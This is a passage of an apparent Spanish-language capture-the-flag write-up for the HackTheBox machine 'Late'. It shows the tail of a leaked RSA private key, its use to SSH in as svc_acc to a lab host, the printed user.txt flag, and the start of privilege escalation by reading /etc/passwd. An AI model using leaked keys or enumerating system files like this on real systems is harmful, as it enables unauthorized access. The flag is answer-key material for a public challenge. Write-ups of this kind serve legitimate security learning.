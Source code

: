 ```bash
0xEKNYA3HS5qvOI3dHj6O4JZBDUzCgZFmlI5fslxLtl57WnlwSCGHLdP/knKxHIE
uJBIk0KSZBeT8F7IfUukZjCYO0y4HtDP3DUqE18CgYBgI5EeRt4lrMFMx4io9V3y
3yIzxDCXP2AdYiKdvCuafEv4pRFB97RqzVux+hyKMthjnkpOqTcetysbHL8k/1pQ
GUwuG2FQYrDMu41rnnc5IGccTElGnVV1kLURtqkBCFs+9lXSsJVYHi4fb4tZvV8F
ry6CZuM0ZXqdCijdvtxNPQKBgQC7F1oPEAGvP/INltncJPRlfkj2MpvHJfUXGhMb
Vh7UKcUaEwP3rEar270YaIxHMeA9OlMH+KERW7UoFFF0jE+B5kX5PKu4agsGkIfr
kr9wto1mp58wuhjdntid59qH+8edIUo4ffeVxRM7tSsFokHAvzpdTH8Xl1864CI+
Fc1NRQKBgQDNiTT446GIijU7XiJEwhOec2m4ykdnrSVb45Y6HKD9VS6vGeOF1oAL
K6+2ZlpmytN3RiR9UDJ4kjMjhJAiC7RBetZOor6CBKg20XA1oXS7o1eOdyc/jSk0
kxruFUgLHh7nEx/5/0r8gmcoCvFn98wvUPSNrgDJ25mnwYI0zzDrEw==
-----END RSA PRIVATE KEY-----
```

## Shell svc_acc

```bash
❯ nano id_rsa
❯ chmod 600 id_rsa
```

```bash
❯ ssh -i id_rsa svc_acc@10.10.11.156
The authenticity of host '10.10.11.156 (10.10.11.156)' can't be established.
ECDSA key fingerprint is SHA256:bFNeiz1CrOE5/p6XvXGfPju6CF1h3+2nsk32t8V1Yfw.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.11.156' (ECDSA) to the list of known hosts.
svc_acc@late:~$ export TERM=xterm
svc_acc@late:~$ 
```

## User.txt 

```bash
svc_acc@late:~$ cat user.txt 
9721d13e379a6ecd73fddb34121e6628
svc_acc@late:~$ 
```

## Escalada de Privilegios

Vemos que solo `root` tiene una `bash` aparte de nosotros así que ahora toca convertirnos en ese **usuario**

```bash
svc_acc@late:~$ cat /etc/passwd | grep sh
root:x:0:0:root:/root:/bin/bash
sshd:x:110:65534::/run/sshd:/usr/sbin/nologin
svc_acc:x:1000:1000:Service Account:/home/svc_acc:/bin/bash
svc_acc@late:~$ 
```

Este es el código fuente donde se muestra como funciona todo por detrás 
